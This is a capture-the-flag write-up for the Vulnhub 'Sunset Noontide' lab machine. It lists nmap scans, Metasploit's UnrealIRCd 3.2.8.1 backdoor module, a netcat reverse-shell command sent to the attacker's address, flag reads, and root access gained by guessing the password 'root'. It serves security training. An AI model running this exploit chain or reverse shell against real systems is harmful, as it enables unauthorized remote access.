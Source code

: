 # Sunset-Noontide-Vulnhub-Writeup


### Scanning

nmap  192.168.122.170

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled.png)

nmap -p- 192.168.122.170

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%201.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%201.png)

nmap -sV -A 192.168.122.170

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%202.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%202.png)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%203.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%203.png)

nmap --script irc-unrealirc-backdoor.nse 192.168.122.170 -p 6667

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%204.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%204.png)

### Enumeration

Searching for unrealirc exploit in msfconsole

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%205.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%205.png)

use exploit/unix/irc/unreal_ircd_3281_backdoor

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%206.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%206.png)

set rhosts 192.168.122.170

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%207.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%207.png)

set payload cmd/unix/reverse

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%208.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%208.png)

set lhost 192.168.122.178

run

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%209.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%209.png)

This payload doesn't work. So using another payload 

set payload cmd/unix/generic

show options

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2010.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2010.png)

set cmd "nc -e /bin/sh 192.168.122.178 4444"

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2011.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2011.png)

Start listening on port 4444

nc -lvp 4444

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2012.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2012.png)

exploit

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2013.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2013.png)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2014.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2014.png)

*****Successfully got reverse shell.

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2015.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2015.png)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2016.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2016.png)

cat local.txt (User Flag)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2017.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2017.png)

### Privilege Escalation

In the CTF description it was written "Very easy, do not overthink it!" 

So we'll try password root for user root

su root

password: root

We got shell for root user.

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2018.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2018.png)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2019.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2019.png)

cat proof.txt

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2020.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2020.png)
